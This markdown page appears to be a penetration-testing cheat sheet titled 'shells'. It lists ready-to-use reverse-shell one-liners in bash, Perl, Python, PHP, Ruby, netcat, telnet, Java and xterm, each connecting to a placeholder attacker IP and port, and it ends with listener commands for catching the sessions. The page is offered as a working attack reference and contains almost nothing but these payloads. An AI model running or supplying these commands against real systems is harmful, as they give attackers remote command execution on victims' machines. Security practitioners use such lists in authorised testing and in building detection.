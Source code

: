```yaml
---
layout: default
title: shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - reverse
    - ruby
    - telnet
    - xterm
---
```

# shells

### Reverse Shells
Bash

`bash -i >& /dev/tcp/<attackerip>/<attacherport> 0>&1`

`0<&196;exec 196<>/dev/tcp/<attackerip>/<attackerport>; sh <&196 >&196 2>&19`

`exec 5<>/dev/tcp/<attackerip>/<attackerport>
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done`

`exec 5<>/dev/tcp/<attackerip>/<attackerport>; cat <&5 | while read line; do $line 2>&5 >&5; done`

Perl

`perl -e 'use Socket;$i="<attackerip>";$p=<attackerport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<attackerip>:<attackerport>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` _(no /bin/sh)_

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<attackerip>:<attackerport>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` _(Windows)_

Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attackerip>",<attackerport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP

`php -r '$sock=fsockopen("<attackerip>",<attackerport>);exec("/bin/sh -i <&3 >&3 2>&3");'`

Ruby

`ruby -rsocket -e'f=TCPSocket.open("<attackerip>",<attackerport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'` _(no /bin/sh)_

`ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'` _(Windows)_

Netcat

`nc -e /bin/sh <attackerip> <attackerport>`

`/bin/sh | nc <attackerip> <attackerport>`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerip> <attackerport> >/tmp/f` _(no `-e` flag)_

Telnet

`rm -f /tmp/p; mknod /tmp/p p && telnet <attackerip> <attackerport> 0/tmp/p`

`telnet <attackerip> <attackerport1> | /bin/bash | telnet <attackerip> <attackerport2>` _(locally listen on attackerport2)_

Java

`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<attackerip>/<attackerport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

xterm

`xterm -display <attackerip>:1` _(port 6001)_

- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +<targetip>`

### Catching Shells
Metasploit

`use exploit/multi/handler`

Netcat

`nc -lvnp <attackerport>` _(can use `-vv`/`-vvv` to debug with extra verbosity)_

